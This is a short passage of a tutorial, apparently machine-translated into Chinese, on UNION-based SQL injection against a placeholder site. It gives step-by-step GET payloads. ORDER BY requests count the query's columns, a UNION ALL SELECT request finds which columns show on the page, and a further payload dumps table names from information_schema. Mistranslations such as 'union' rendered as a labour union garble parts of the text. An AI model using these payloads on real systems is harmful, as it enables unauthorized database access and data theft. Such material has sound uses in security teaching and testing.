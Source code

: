 ![](img/00bd1f8e07a0c1bb5d0a16e8ac1ebf38.png)

基于工会的 SQLi:有点像保险箱破解——窃贼中的罗伯特·侯赛因

1.  **找到准确的列数**

```
GET [https://my-vulnerable-site.com/product.php?id=1](https://my-vulnerable-site.com/product.php?id=1) ORDER BY <X>--
```

每次启动“X”并增加 1 可以让您找出原始查询需要多少列:每次尝试您都会看到一些响应，直到您得到一个错误——大致如下:

```
Unknown column 'X' in order by clause
```

这意味着您已经超过了列数。所以 X-1 将是列的精确数目。

2.**找出页面中哪些区域容易受到 SQLi 的攻击**

请记住，最初的查询检索一些数据并将其显示在页面上，通过使用 UNION，我们只是将额外的数据添加到显示在页面上的结果集中。

如果我们像这样运行(一旦我们知道结果集中有 5 列):

```
GET https://my-vulnerable-site.com/product.php?id=1 UNION ALL SELECT 1,2,3,4,5--
```

您会在页面上看到一些数据*和一些数字:* **页面上易受攻击的列的数字！**

这意味着，如果您要用更有用的东西替换一些列号，比如:

```
GET https://my-vulnerable-site.com/product.php?id=1 UNION ALL SELECT 1,2,3,group_concat(table_name),5 FROM information_schema.tables WHERE table_schema = database()--
```
